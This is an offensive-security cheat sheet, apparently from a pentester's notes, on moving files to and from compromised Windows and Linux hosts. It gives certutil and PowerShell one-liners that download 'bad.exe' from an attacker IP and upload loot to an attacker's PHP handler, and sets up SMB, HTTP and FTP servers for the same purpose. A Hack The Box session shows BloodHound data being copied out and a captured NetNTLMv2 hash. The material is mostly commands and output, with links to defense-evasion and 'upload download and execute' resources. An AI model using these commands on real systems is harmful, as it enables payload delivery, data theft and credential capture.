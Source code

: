 - [Windows File Transfer](#windows-file-transfer)
	- [Certutil](#certutil)
	- [PowerShell](#powershell)
- [Linux File Transfer](#linux-file-transfer)
	- [impacket-smbserver](#impacket-smbserver)
	- [HTTP](#http)
	- [FTP](#ftp)
		- [pyftpdlib](#pyftpdlib)
- [SSH/SCP](#sshscp)


# [Windows File Transfer](#windows-file-transfer-1)
## [Certutil](#certutil-1)
### [Downloading Files with Certutil](https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil)
```sh
certutil.exe -urlcache -f http://10.1.1.1/40564.exe bad.exe
certutil -urlcache -f http://10.1.1.1/40564.exe bad.exe

$t = '10.1.1.1'
certutil -urlcache -f http://$t/40564.exe bad.exe
```
(New-Object Net.WebClient).DownloadFile('http://$t/taskkill.exe','C:\Windows\Temp\taskkill.exe')

## [PowerShell](#powershell-1)
https://gitbook.brainyou.stream/post-exploitation/file-transfer
```sh
powershell (New-Object System.Net.WebClient).UploadFile('http://x.x.x.x/upload.php', '<some_file>')
```

PHP Handler
On Kali, we can make a upload.php:
```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name']
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Put the script into /var/www/html. Then do:
```sh
mkdir /var/www/uploads
systemctl start apache
chown www-data: /var/www/uploads
```

# Linux File Transfer
## impacket-smbserver
### [SMB](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)
### On Server Side (Kali)
```sh
smbserver.py share . -smb2support
smbserver.py share . -smb2support -username root -password toor
impacket-smbserver share . -smb2support -username root -password toor
impacket-smbserver share . -smb2support -username root -password toor -ip 10.1.1.1
```

```sh
$ impacket-smbserver share .
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

### On Client Side
```sh
C:\Users\bitbucket\Downloads>net use \\10.1.1.1\share
Enter the user name for '10.1.1.1': root
Enter the password for 10.1.1.1: toor
The command completed successfully.
```

```sh
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>copy acls.csv \\10.1.1.1\share
        1 file(s) copied.
```

### On Server Side (Kali), received the file
```sh
[*] Incoming connection (10.10.10.77,52853)
[*] AUTHENTICATE_MESSAGE (HTB\tom,REEL)
[*] User REEL\tom authenticated successfully
[*] tom::HTB:aaaaaaaaaaaaaaaa:ce35716473cdd23a96f36ceb04c047b7:01010000000000008001dda490e0d90110624f8984ad10560000000001001000410070004900720061006c006700690003001000410070004900720061006c00670069000200100044005400690049006800610071006f000400100044005400690049006800610071006f00070008008001dda490e0d90106000400020000000800300030000000000000000000000000300000af600118190f818eb191529b8de7b91c47aaab8e73855d44e95d1b6e27fd549f0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003900000000000000000000000000
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SHARE)
[*] Closing down connection (10.10.10.77,52853)
[*] Remaining connections []

Ctrl + C

$ ls -lh acls.csv                         
-rwxr-xr-x 1 kali kali 110K Jan  1  1970 acls.csv
```

## [HTTP](#http-1)
```sh
python -m http.server
python -m http.server 80
python -m http.server 80 -b 10.1.1.10
```

## [FTP](#ftp-1)
### [pyftpdlib](#pyftpdlib-1)
```sh
pip install pyftpdlib
python -m pyftpdlib -p 21
python -m pyftpdlib -p 21 -i $myip
```

### On Client Side
Use explorer, browser, or cmd
```sh
PS C:\> ftp 10.1.1.1
Connected to 10.1.1.1.
220 pyftpdlib 1.5.9 ready.
530 Log in with USER and PASS first.
User (10.1.1.1:(none)): anonymous
331 Username ok, send password.
Password:
230 Login successful.
ftp> ls
```

# SSH/SCP
### 
```sh
$ ssh -i alice.pem alice1978@$t ls
lin.txt

$ scp -i alice.pem alice1978@$t:~/lin.txt .
lin.txt          100%   59KB 429.8KB/s   00:00
```

### 
```sh

```

### 
```sh

```
# [References](#references-1)

## [UPLOAD DOWNLOAD AND EXECUTE SOME STUFF]
https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/Y%20-%20UL-DL-EXEC%20Skills/README.md